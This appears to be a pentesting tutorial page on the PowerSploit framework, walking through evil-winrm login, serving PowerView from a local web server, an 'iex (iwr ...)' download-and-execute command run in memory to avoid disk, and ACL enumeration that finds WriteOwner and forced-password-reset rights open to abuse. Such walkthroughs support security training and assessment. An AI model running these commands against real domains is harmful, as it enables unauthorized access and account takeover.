

# 1.7 PowerSploit

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit) is an open-source PowerShell-based post-exploitation framework widely used in penetration testing and Active Directory security assessments. It contains multiple PowerShell scripts and modules designed to help security professionals perform reconnaissance, privilege escalation, credential harvesting, persistence, lateral movement, and other post-exploitation activities in Windows environments.

PowerSploit was developed by the PowerShellMafia team and became one of the most popular PowerShell offensive security frameworks used by penetration testers and red teamers. Since it is built entirely in PowerShell, many of its modules can run directly in memory without dropping files to disk, making detection more difficult in some environments.

The framework is divided into multiple modules, each designed for specific attack or enumeration tasks. Some commonly used modules include:

* **PowerView** – Active Directory enumeration and domain reconnaissance
* **PowerUp** – Windows privilege escalation checks
* **Invoke-Mimikatz** – Credential dumping and ticket extraction
* **PowerCat** – PowerShell-based networking utility similar to Netcat
* **Invoke-Shellcode** – Shellcode execution in memory
* **Get-GPPPassword** – Retrieves passwords stored in Group Policy Preferences

PowerSploit is commonly used during Active Directory penetration testing to enumerate domain users, groups, trusts, sessions, permissions, and privilege escalation paths. Tools like PowerView are especially popular for AD reconnaissance and BloodHound data collection.

***

## Download PowerSploit

Download PowerSploit from github:

```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd PowerSploit
ls -all
```

<figure><figcaption></figcaption></figure>

***

## PowerView

PowerView is a PowerShell-based Active Directory reconnaissance tool included in the PowerSploit framework. It is widely used by penetration testers and red teamers to enumerate and analyze Active Directory environments during internal security assessments.

PowerView allows attackers or security professionals to gather detailed information about domain users, groups, computers, shares, sessions, permissions, Group Policy Objects (GPOs), trusts, and access control settings. Since it uses native Windows and Active Directory functions, many enumeration activities can be performed without requiring administrator privileges.

The tool is mainly used during the reconnaissance phase of an Active Directory penetration test to identify misconfigurations, weak permissions, privileged accounts, lateral movement opportunities, and privilege escalation paths.

PowerView can help identify:

* Domain users and groups
* Domain administrators
* Logged-in users and active sessions
* Shared folders and network shares
* Local administrator access
* Kerberoastable accounts
* AS-REP Roastable users
* Trust relationships between domains
* ACL and permission misconfigurations
* Computers with unconstrained delegation

One of the main advantages of PowerView is that it can perform Active Directory enumeration directly from memory using PowerShell, reducing the need for external binaries on disk. This makes it a popular tool in both penetration testing and red team operations.

<figure><figcaption></figcaption></figure>

***

## Enumerate Information Using PowerView

First we connect with evil-winrm:

```bash
evil-winrm -i <DOMAIN-IP> -u <USERNAME> -p <PASSWORD>
```

<figure><figcaption></figcaption></figure>

Now start python server to share PowerView:

```bash
python3 -m http.server 80
```

<figure><figcaption></figcaption></figure>

#### Import PowerView into Memory

**Purpose:** This command downloads and executes the PowerView PowerShell script directly in memory from a remote web server. It is commonly used during Active Directory enumeration to avoid writing the script to disk.

```powershell
iex (iwr -usebasicparsing http://<IP>/Powerview.ps1)
```

<figure><figcaption></figcaption></figure>

#### Convert Username to SID

**Purpose:** This command converts a domain username into its Security Identifier (SID). The SID is a unique identifier assigned to every user, group, or computer object in Active Directory.

```powershell
$sid = convert-nametosid '<USER>'
echo $sid
```

<figure><figcaption></figcaption></figure>

#### Enumerate ACL Permissions for the User

**Purpose:** This command searches Active Directory object Access Control Lists (ACLs) and identifies permissions associated with the specified user SID. It is commonly used to discover delegated rights, privilege escalation paths, and potentially exploitable permissions in the domain environment.

```powershell
get-domainobjectacl -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} -Verbose
```

<figure><figcaption></figcaption></figure>

This output shows that the user associated with the SID stored in `$sid` has the `WriteOwner` permission over the `http_svc` user account in Active Directory.

```
ObjectDN              : CN=http_svc,CN=Users,DC=external,DC=local
ActiveDirectoryRights : WriteOwner
SecurityIdentifier    : S-1-5-21-94923000-2745856547-2003456244-1123
```

The `WriteOwner` permission allows the user to change the ownership of the `http_svc` account object. After taking ownership, the attacker may be able to modify object permissions and potentially gain full control over the account. This type of permission is commonly abused for privilege escalation in Active Directory environments.

We can also enumerate ACL permission of the http\_svc user:

<figure><figcaption></figcaption></figure>

This output shows that the user associated with the SID stored in `$sid` has the `User-Force-Change-Password` permission over the `bruce wayne` user account in Active Directory.

```
ObjectDN              : CN=bruce wayne,CN=Users,DC=external,DC=local
ActiveDirectoryRights : ExtendedRight
ObjectAceType         : User-Force-Change-Password
```

The `User-Force-Change-Password` permission allows the attacker to reset the password of the target account without knowing the current password. This permission can be abused to gain access to the `bruce wayne` account and potentially perform further enumeration, lateral movement, or privilege escalation within the Active Directory environment.
